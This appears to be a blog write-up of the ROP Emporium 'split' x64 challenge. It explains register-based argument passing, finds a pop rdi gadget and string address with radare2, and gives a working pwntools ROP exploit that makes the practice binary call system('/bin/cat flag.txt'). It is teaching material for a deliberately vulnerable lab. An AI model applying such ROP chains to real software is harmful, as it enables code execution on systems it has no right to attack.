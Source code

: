 ```yaml
---
layout: post
title:  "ROP Emporium split Writeup (x64)"
date:   2024-06-01 13:15:45 -0400
categories: rop-emporium split
tags: rop-emporium split x64 writeup buffer-overflow rop reverse-engineering 64-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[second challenge](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `system` with the argument `/bin/cat flag.txt`.
This string is also present in the binary!

### x64 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x64` arguments are passed through specific registers.
The first three arguments correspond to the `rdi`, `rsi`,
and `rdx` registers respectively. 
[This x64 cheat sheet](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf){:target="_blank"}{:rel="noopener noreferrer"}
can help if you want to learn more about `x64`.

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> Is there an address where `system()` is called?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/split/x64-addr.png)

Let's investigate `usefulFunction`. We can view
the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful-asm](/images/split/x64-useful-asm.png)

This function seems to `call` the `system()` function
with the argument `/bin/ls`. We want to change the
argument but let's take note of the `call` address
`0x0040074b`

### Setting Arguments
> Find a gadget which sets the `rdi` register
{: .prompt-tip }
According to the
[x64 calling convention](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"},
a function's first argument is passed through the
`rdi` register. In order to set this value we need
to find a `pop rdi` gadget which will take a value
off of the stack and place it into `rdi`

We can search for ROP gadgets in `radare2` with the `/R`
command

```
/R pop rdi
```
![rdi-addr](/images/split/x64-rdi-addr.png)

The address of our gadget is `0x004007c3`. Once we call
this gadget, we'll need to pass the address of the
string we want to execute onto the stack.

### String Address
> The string `/bin/cat flag.txt` exists in the binary
{: .prompt-tip }
Using `radare2` again we can search for case insensitive
strings with the `/i` command. So to find the address
of `/bin/cat flag.txt` we run

```
/i /bin/cat flag.txt
```
![cat-addr](/images/split/x64-cat-addr.png)

Awesome the address of the string is `0x00601060`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
str_addr = 0x00601060
sys_addr = 0x0040074b
pop_rdi_addr = 0x004007c3

# create payload
payload = b'A' * 40
# set arg1 (pop rdi)
payload += p64(pop_rdi_addr)
payload += p64(str_addr)
# call sys
payload += p64(sys_addr)

# send payload + receive flag
io = process('./split')
io.recv()
io.sendline(payload)
print(io.recvline())
success(io.recvline())
```
![flag](/images/split/x64-flag.png)

## Conclusion
This challenge takes things a step further than
just calling an arbitrary function by introducting the 
ability to set arbitrary arguments for that function.

[Previous Challenge (ret2win)]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[Next Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[split x86]({% post_url 2024-06-01-rop-emporium-split-x86%}){:target="_blank"}{:rel="noopener noreferrer"}
